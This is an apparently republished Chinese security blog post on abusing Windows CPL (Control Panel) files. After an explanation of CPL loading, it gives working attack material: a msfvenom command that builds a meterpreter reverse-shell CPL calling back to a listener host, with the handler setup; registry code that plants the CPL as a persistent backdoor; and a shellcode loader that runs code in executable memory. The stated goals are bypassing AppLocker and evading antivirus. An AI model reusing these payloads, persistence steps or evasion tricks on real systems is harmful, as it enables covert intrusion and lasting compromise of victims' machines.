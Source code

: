 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ue5_tQDXsmg2OtMe776O1g)

前言
--

最近无意间发现了 cpl 文件, 之前对该类型的文件了解几乎为零, 由于触及到我的知识盲区, 于是决定探究。

cpl 文件
------

CPL 文件，是 Windows 控制面板扩展项，CPL 全拼为`Control Panel Item` 在 system32 目录下有一系列的 cpl 文件, 分别对应着各种控制面板的子选项

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7Rbe7lLpcrFaDXfaJ7No1ogooVGDs9F5FChibQ63ibIK6GqmMQJicB0XYw/640?wx_fmt=png)

列入我们`win+R`输入`main.cpl`

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7F3yGrMY56PR2avjBM16wCeia09OFnTLCBtTrianwZmtP21qX8ogB0Dkg/640?wx_fmt=png)

将会打开控制面板中的鼠标属性

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7djQKg3N5Vxib7klKfQm3ribAicicLwhv3yM0bMcYx10S3oGLBbficLBkOLA/640?wx_fmt=png)

cpl 文件本质是属于 PE 文件

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7IMId6pp2jqEKGtoBpuxJ87ThI7Imiccoaibnwtibww9xVViauEFmrdTA6A/640?wx_fmt=png)

但 cpl 并不像 exe, 更像是 dll, 无法直接打开, 只能以加载的形式运行。并且有一个导出函数`CPlApplet` 该函数是控制面板应用程序的入口点，它被控制面板管理程序自动调用，且是个回调函数。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7UvibDnVMoUoBviaibulsia7RIbA1dMLTXJgayOsoQskKWxscT4NibhDDmbw/640?wx_fmt=png)

如何打开 cpl
--------

1. 双击或者 win+r xxx.cpl 2.control <文件名> 3.rundll32 shell32.dll,Control_RunDLL < 文件名 > 注意：所有 rundll32 shell32.dll,Control_RunDLL 的命令均可用 control 替代，control.exe 实质调用了 rundll32.exe。打开后找不到 control.exe 进程，只能找到 rundll32.exe。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7gicMYrodaIfByoDLSicl2HZwgZQu0LIYFjJGPVSnx7icic9xVnZUQLborA/640?wx_fmt=png)

4.vbs 脚本

```
Dim objSet obj = CreateObject("Shell.Application")obj.ControlPanelItem("C:\Users\11793\Desktop\cpl.cpl")
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7bqG79UhukBicjIra26eYPdV0ZTESmqVeXVz34xH0mxqt1QqMicqqPHpw/640?wx_fmt=png)

5.js 脚本

```
var a = newActiveXObject("Shell.Application");a.ControlPanelItem("C:\\Users\\11793\\Desktop\\cpl.cpl");
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7EQG44b8XpuRFW5Cfo9Y5mjbITyplPzVo8jAGQGMZenTxURahKPO9ug/640?wx_fmt=png)

如何自己制造一个 cpl 文件
---------------

最简单的方式: 直接创建一个 dll, 无需导出函数, 然后改后缀名

```
BOOL APIENTRY DllMain( HMODULE hModule,                       DWORD  ul_reason_for_call,                       LPVOID lpReserved){switch(ul_reason_for_call){case DLL_PROCESS_ATTACH:WinExec("Calc.exe", SW_SHOW);case DLL_THREAD_ATTACH:case DLL_THREAD_DETACH:case DLL_PROCESS_DETACH:break;}return TRUE;}
```

随便一种方式执行

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7e8nQp7Mh0Ot8pN1Gm5lXeiadRklzZutTOsFexHqsZwl3KdhIOGic83Vw/640?wx_fmt=png)

这里既然可以弹出 calc.exe, 那么能不能执行自己的 payload 的呢, 答案是肯定的。

cpl 文件的应用
---------

### bypass Windows AppLocker

什么是`Windows AppLocker`: AppLocker 即 “应用程序控制策略”，是 Windows 7 系统中新增加的一项安全功能。在 win7 以上的系统中默认都集成了该功能。

默认的 Applocker 规则集合, 可以看到 cpl 并不在默认规则中:

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7shxUV4qEWltbKoJckicqv60uJib7U4eoq0KvtlmDMb1Vn5fezYCOHwLA/640?wx_fmt=png)

开启 Applocker 规则: 打开计算机管理, 选择服务, 将`Application Identity`服务开启

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU75ziaeKslOLsbWHiaQ86ibTIFJicXicBGL7GJQVsBvCTYiazat7ZvduFfREvA/640?wx_fmt=png)

然后在安全策略中, 添加一条 applocker 规则, 会询问是否添加默认规则

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7kricjDHXn6OgCHjZFh2ds1bUdwAdp4TIOGasoricVCvh7ydBKZLf1YJA/640?wx_fmt=png)

默认规则为:

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7PiaVoNfFfUjDsibWu2dJF84tsltAGMESsQKYMibQE5FT8SbKwPFkFSQ5Q/640?wx_fmt=png)

假设设置某一路径无法执行可执行程序, 再次运行时就会提示组策略安全, 不允许运行

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU75YWoPzPum4koEGStoQibbrzLOSwYAUXuI9z0WLbO3g82D80UCekic6OQ/640?wx_fmt=png)

绕过的方式有很多, 这里只讲 cpl 文件 完全可以把代码写入到 cpl 文件中, 同样达到执行目的, 这里就弹一个 cmd

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7QzERz31owkly7fOia3n3uqY4ggnZT1byNYALH54vxibFwxQJOyP37e4A/640?wx_fmt=png)

### msf 直接生成 cpl 文件

生成 cpl 文件 `msfvenom -p windows/meterpreter/reverse_tcp -b '\x00\xff' lhost=192.168.111.128 lport=8877 -f dll -o cpl.cpl`

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7Ps5mScnVZpGIvb5hxpEaGc0IGA2wops3AZp6gicEjWibichWIIVE8RpUg/640?wx_fmt=png)

将文件拖到本地并运行, msf 监听

•use exploit/multi/handler•set payload windows/meterpreter/reverse_tcp•set lhost 192.168.111.128•set lport 8877•exploit

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7ZLBBJny429ibO6TzmkRibnQ4bLPdmQqrWCBZbibJSbnSGXIbibgU7sqjsQ/640?wx_fmt=png)

这样肯定是不够的, 可以把这个 cpl 文件当作一个后门, 做到一个权限维持的效果, 且比较隐蔽。将 cpl 文件名称改为`test.cpl` 创建一个项目, 作用为修改注册表:

```
HKEY hKey;DWORD dwDisposition;char path[] = "C:\\test.cpl";RegCreateKeyExA(HKEY_CURRENT_USER,"Software\\Microsoft\\Windows\\CurrentVersion\\Control Panel\\Cpls", 0, NULL, 0, KEY_WRITE, NULL, &hKey, &dwDisposition);RegSetValueExA(hKey, "test.cpl", 0, REG_SZ, (BYTE*)path, (1+ ::lstrlenA(path)));
```

不一定将 cpl 文件放到 c 盘更目录, 可以自定义路径 执行后

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7vzu1UCFEfdC0juaicqfwB4N1RXpAYl5GR1vAvFMgOjo2XglGtmRs17g/640?wx_fmt=png)

然后这里在开启 control.exe 时, test.cpl 文件也会被打开。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7NaVlXc3Nr8FbIvL2eic9pCpaa12XwwrzkYhcrnBZsRP6aztokxNlLWA/640?wx_fmt=png)

如果目标主机有杀软, 可以通过该方法白加黑绕过, 但是 msf 的 cpl 文件特征非常明显, 静态太概率都会被杀掉。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7xRxticTxGwia91Pchg7fjCSjz3BHt8xqnyaSZ9ibF8VGlWZl95o7FViauA/640?wx_fmt=png)

除了加壳之外, 寄希望于自己实现加载 shellcode, 方便做混淆。

### 使用 shellcode 自己做一个 cpl 文件

直接上代码

```
#include"pch.h"#include"windows.h"extern"C" __declspec(dllexport) VOID CPlApplet(HWND hwndCPl, UINT msg, LPARAM lParam1, LPARAM lParam2){MessageBoxA(0, NULL, "test", MB_OK);/* length: 835 bytes */unsignedchar buf[] = "shellcode";    LPVOID Memory= VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);    memcpy(Memory, buf, sizeof(buf));((void(*)())Memory)();}BOOL APIENTRY DllMain( HMODULE hModule,                       DWORD  ul_reason_for_call,                       LPVOID lpReserved){switch(ul_reason_for_call){case DLL_PROCESS_ATTACH:case DLL_THREAD_ATTACH:case DLL_THREAD_DETACH:case DLL_PROCESS_DETACH:break;}return TRUE;}
```

这是最最最最基础的 loader 先打开`control.exe`看看效果

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7MWpOLbbQUPXNlfuHEwABMC7yQDZ9LzFrpg0h0k5vH3vRyG0ePwQiasg/640?wx_fmt=png)

看看查杀率

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7ZknA3mNZj6VaUAibZ0ibraMnicrictyQ5JI1DhIVTYQnuLWeicLTxJIvMOQ/640?wx_fmt=png)

这里上传的文本, shellcode 没有做任何的处理, 查杀率已经算比较低的, 如果混淆一下, 很轻松的就可以静态过杀软, 再用白加黑, 是不是想想就很轻松呢。

经过一系列处理后, 找杀毒能力还比较强的 360 试一下

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic4zic4TxUTHGIbePMvgUuU7HSZRjI5rkubC7H9viaKGCaEWnicEZHoia2xrkiaAo1MtFeuGqPyh18w1Ag/640?wx_fmt=png)

**![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)**

**推荐阅读：**

https://wooyun.js.org/drops/CPL%E6%96%87%E4%BB%B6%E5%88%A9%E7%94%A8%E4%BB%8B%E7%BB%8D.html

https://attack.mitre.org/techniques/T1218/002/

https://docs.microsoft.com/zh-cn/windows/security/threat-protection/windows-defender-application-control/applocker/working-with-applocker-rules

[Office 如何快速进行宏免杀](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247492416&idx=1&sn=c444b28f7aa67e9ee15d42bc1aeef10d&chksm=ec1cb67fdb6b3f69d33753fd68cad86f401c07f5fddb3157c81468cab144978a5fb3840da037&scene=21#wechat_redirect)  

[免杀方法大集结](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247488534&idx=1&sn=fd37b093e15cbcf82f0b5d408458658d&chksm=ec1f4129db68c83fda99a59dbe4ddc4c827a9ce25b4937b84056c5f164ee75ba96aeaf8f87a2&scene=21#wechat_redirect)  

[干货 | 如何快速完成 DLL 劫持，实现权限维持，重启上线](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247493305&idx=1&sn=5b292ca23204c7c6adabaff3bc6d7edf&chksm=ec1cb386db6b3a90e08b077116175120e078e74697832f9455eb2dc7020334955b8642af8288&scene=21#wechat_redirect)  

[实战中 exe 文件免杀](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247489970&idx=1&sn=f354af09c3f57ff4317b09fabc3ceec1&chksm=ec1f4c8ddb68c59ba96a4cf2300c7af1fdae5e4279016608583deeefda0322ced9bad9d52898&scene=21#wechat_redirect)  

本月报名可以参加抽奖送 BADUSB 的优惠活动  

  
[![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvouibfico2qhUHkxIvX2u13s7zzLMaFdWAhC1MTl3xzjjPth3bLibSZtzN9KGsEWibPgYw55Lkm5VuKthibQ/640?wx_fmt=jpeg)](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498688&idx=1&sn=d81921a3873e254b0a135d9ffaa00468&chksm=ec1caeffdb6b27e9d129e1b00e92e01d49ccca43bb18f2388c733143557bfaaf62d0efd7f22f&scene=21#wechat_redirect)

**点赞，转发，在看**

原创投稿作者：Buffer

![](https://mmbiz.qpic.cn/mmbiz_gif/Uq8QfeuvouibQiaEkicNSzLStibHWxDSDpKeBqxDe6QMdr7M5ld84NFX0Q5HoNEedaMZeibI6cKE55jiaLMf9APuY0pA/640?wx_fmt=gif)